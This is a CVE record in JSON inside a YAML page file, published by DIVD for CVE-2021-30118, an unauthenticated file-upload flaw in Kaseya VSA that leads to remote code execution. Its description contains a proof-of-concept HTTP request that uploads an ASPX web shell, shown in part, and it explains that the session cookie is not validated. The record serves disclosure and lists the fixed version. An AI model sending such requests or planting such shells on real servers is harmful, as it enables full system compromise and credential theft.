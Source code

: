 ```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta": {
        "ASSIGNER": "cve@mitre.org",
        "ID": "CVE-2021-30118",
        "STATE": "PUBLIC",
        "TITLE": "Unauthenticated Remote Code Execution in Kaseya VSA < v9.5.5"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA (On-premise and SaaS)",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra of DIVD"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk of DIVD"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "An attacker can upload files with the privilege of the Web Server process for Kaseya VSA Unified Remote Monitoring & Management (RMM) 9.5.4.2149 and subsequently use these files to execute asp commands\n\nThe api /SystemTab/uploader.aspx is vulnerable to an unauthenticated arbitrary file upload leading to RCE.  An attacker can upload files with the privilege of the Web Server process and subsequently use these files to execute asp commands.\n\nDetailed description\n---\nGiven the following request:\n```\nPOST /SystemTab/uploader.aspx?Filename=shellz.aspx&PathData=C%3A%5CKaseya%5CWebPages%5C&__RequestValidationToken=ac1906a5-d511-47e3-8500-47cc4b0ec219&qqfile=shellz.aspx HTTP/1.1\nHost: 192.168.1.194\nCookie:  sessionId=92812726; %5F%5FRequestValidationToken=ac1906a5%2Dd511%2D47e3%2D8500%2D47cc4b0ec219\nContent-Length: 12\n\n<%@ Page Language=\"C#\" Debug=\"true\" validateRequest=\"false\" %>\n<%@ Import namespace=\"System.Web.UI.WebControls\" %>\n<%@ Import namespace=\"System.Diagnostics\" %>\n<%@ Import namespace=\"System.IO\" %>\n<%@ Import namespace=\"System\" %>\n<%@ Import namespace=\"System.Data\" %>\n<%@ Import namespace=\"System.Data.SqlClient\" %>\n<%@ Import namespace=\"System.Security.AccessControl\" %> \n<%@ Import namespace=\"System.Security.Principal\" %>\n<%@ Import namespace=\"System.Collections.Generic\" %> \n<%@ Import namespace=\"System.Collections\" %> \n \n<script runat=\"server\">\n \nprivate const string password = \"pass\";  // The password ( pass )\nprivate const string style = \"dark\";  // The style ( light / dark )\n \nprotected void Page_Load(object sender, EventArgs e)\n{\n\t//this.Remote(password);\n\tthis.Login(password);\n\tthis.Style(); \n\tthis.ServerInfo(); \n\t\n<snip>\n```\nThe attacker can control the name of the file written via the qqfile parameter and the location of the file written via the PathData parameter.\n\nEven though the call requires that a sessionId cookie is passed we have determined that the sessionId is not actually validated and any numeric value is accepted as valid.\n\nSecurity issues discovered\n---\n* a sessionId cookie is required by /SystemTab/uploader.aspx, but is not actually validated, allowing an attacker to bypass authentication\n* /SystemTab/uploader.aspx allows an attacker to create a file with arbitrary content in any place the webserver has write access\n* The web server process has write access to the webroot where the attacker can execute it by requesting the URL of the newly created file.\n\nImpact\n---\nThis arbitrary file upload allows an attacker to place files of his own choosing on any location on the hard drive of the server the webserver process has access to, including (but not limited to) the webroot. If the attacker uploads files with code to the webroot (e.g. aspx code) he can then execute this code in the context of the webserver to breach either the integrity, confidentiality, or availability of the system or to steal credentials of other users. In other words, this can lead to a full system compromise.\n"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "HIGH",
            "baseScore": 9.8,
            "baseSeverity": "CRITICAL",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "HIGH",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-434 Unrestricted Upload of File with Dangerous Type"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://csirt.divd.nl/CVE-2021-30118",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/CVE-2021-30118"
            },
            {
                "name": "https://csirt.divd.nl/DIVD-2021-00011",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/DIVD-2021-00011"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021"
            }
        ]
    },
    "solution": [
        {
            "lang": "eng",
            "value": "SaaS version has been fixed by the vendor.\nUpgrade on-premise to version 9.5.6 or above"
        }
    ],
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "INTERNAL"
    }
}
---
```


